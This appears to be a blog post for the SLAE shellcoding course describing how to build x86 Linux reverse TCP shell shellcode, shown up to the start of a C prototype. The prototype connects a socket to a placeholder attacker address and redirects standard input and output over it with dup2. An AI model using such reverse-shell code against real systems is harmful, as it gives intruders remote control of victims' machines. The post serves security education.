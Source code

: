 ```yaml
---
layout: single
title: SLAE Assignment 2 -- TCP Reverse Shell
date: 2019-5-7
classes: wide
header:
  teaser: /assets/images/SLAE/SLAE.jpg
tags:
  - SLAE
  - Linux
  - x86
  - Shellcoding
--- 
```

![](/assets/images/SLAE/SLAE.jpg)

## Introduction

The second SLAE assignment is to develop shellcode for a reverse TCP shell. What is a reverse TCP shell? According to [Infosec Institute](https://resources.infosecinstitute.com/icmp-reverse-shell/#gref), a reverse shell is "a type of shell in which the target machine communicates back to the attacking machine. The attacking machine has a listener port on which it receives the connection, which by using, code or command execution is achieved."

After spending so much overhead on the last assignment learning how to format socket programming arguments and how to research them, I found this assignment to be much easier. It also helps that over 90% of the code was reused from the last assignment! ***I am not a professional programmer, I apologize for any socket programming concepts I butchered in my explanations.***

## Prototype

The first thing we want to do, in order to see the syscalls required to support the creation of a reverse shell, is find the simplest implementation of a reverse shell in a language higher than assembly. After a bit of googling, the simplest version of a reverse shell in C that I could find is the [following](https://gist.github.com/0xabe-io/916cf3af33d1c0592a90), with my comments added:

```c
#include <stdio.h>
#include <unistd.h>
#include <netinet/in.h>
#include <sys/types.h>
#include <sys/socket.h>

#define REMOTE_ADDR "XXX.XXX.XXX.XXX"
#define REMOTE_PORT XXX

int main(int argc, char *argv[])
{
    struct sockaddr_in sa;
    int s;
    //creating our struct
    sa.sin_family = AF_INET;
    sa.sin_addr.s_addr = inet_addr(REMOTE_ADDR);
    sa.sin_port = htons(REMOTE_PORT);
    //first syscall socket
    s = socket(AF_INET, SOCK_STREAM, 0);
    //second syscall connect
    connect(s, (struct sockaddr *)&sa, sizeof(sa));
    //third syscall dup2
    dup2(s, 0);
    dup2(s, 1);
    dup2(s, 2);
```